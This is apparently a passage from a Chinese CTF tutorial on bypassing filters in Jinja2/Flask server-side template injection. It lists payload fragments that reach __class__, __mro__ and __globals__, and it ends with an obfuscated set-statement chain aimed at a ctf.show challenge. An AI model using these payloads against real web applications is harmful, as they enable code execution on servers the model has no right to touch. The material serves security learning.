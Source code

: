 举一个简单的例子

例如`''.__class__`写成 '`'|attr(request['values']['x1'])`,然后post传入`x1=__class__`

## 过滤`.`或者`[]`

`.`在payload中是很重要的，但是我们依旧可以采用`attr()`或`[]`绕过

```
小总结:
().__class__
()["__class__"]
()|attr("__class__")
().__getattribute__("__class__") //获取属性
|attr('__getitem__')(177) //列表获取序号
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
或者flask支持
"".__class__.__mro__.2
{{x.__init__.__globals__.__getitem__("__builtins__")}} //也可以获取字典里面的键值对
```

## 关键字黑名单绕过

Flask在渲染模板的时候，有

> ```
> "".__class__`===`""["__class__"]
> ```

这一特性，把上下文变成了[]中的字符串，这个特性经常会被用来绕过点号的过滤。
由于里面的内容已经是字符串了，还可以做一个这样的变形

> ```
> "".__class__`===`""["__cla"+"ss__"]
> ```

甚至不要加号具体可以参考我上面总结的字符串的处理，有很多不举例了

> {{""["__cla""ss__"]}}

## 帝王级绕过

慎用因为累，至于下面为什么cc对应1，ccc对应2是因为，如果获取到0的话那么，比如40就无法拼接，+1以后就可以`ccccc~c`

```
http://e27681b2-43cc-4698-a5d9-4e67729a27a5.chall.ctf.show/?name=http://c8f74fd3-a05a-477c-bb97-10325b9ce77d.chall.ctf.show?name=
{% set c=(t|count)%}
{% set cc=(dict(e=a)|join|count)%}
{% set ccc=(dict(ee=a)|join|count)%}
{% set cccc=(dict(eee=a)|join|count)%}
{% set ccccc=(dict(eeee=a)|join|count)%}
{% set cccccc=(dict(eeeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set ccccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
{% set cccccccccccc=(dict(eeeeeeeeeee=a)|join|count)%}
{% set ccccccccccccc=(dict(eeeeeeeeeeee=a)|join|count)%}
{% set cccccccccccccc=(dict(eeeeeeeeeeeee=a)|join|count)%}
{% set coun=(ccc~ccccc)|int%}
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
```